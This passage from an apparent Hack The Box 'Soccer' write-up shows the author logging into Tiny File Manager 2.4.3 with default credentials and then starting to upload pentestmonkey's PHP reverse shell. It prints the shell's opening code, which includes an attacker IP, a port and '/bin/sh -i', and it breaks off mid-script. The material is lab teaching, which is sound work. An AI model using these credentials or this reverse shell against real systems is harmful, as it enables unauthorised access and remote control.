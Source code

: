 Now here we need credentials to log in, I googled the default credentials to login to this Tiny File Manager and these credentials came up.

```bash
admin:admin@123
user:12345
```

Tried the first pair of credentials on the login page and guess what we are in.

![image.png](/assets/images/Soccer_HTB/image%206.png)

After logging in as Admin we have this page.

## Exploitation

### Shell as www-data

Now here in dashboard the the **tiny file manager version** is written as **2.4.3.**

There must be exploits online, but I think we can get a shell on the box since we are already inside the web app as administrator.

Also we can upload files too.

I will use this **php-reverse-shell** by **pentestmonkey**.

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.24';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
// Fork and have the parent process exit
$pid = pcntl_fork();

if ($pid == -1) {
  printit("ERROR: Can't fork");
  exit(1);
}

if ($pid) {
  exit(0);  // Parent exits
}

```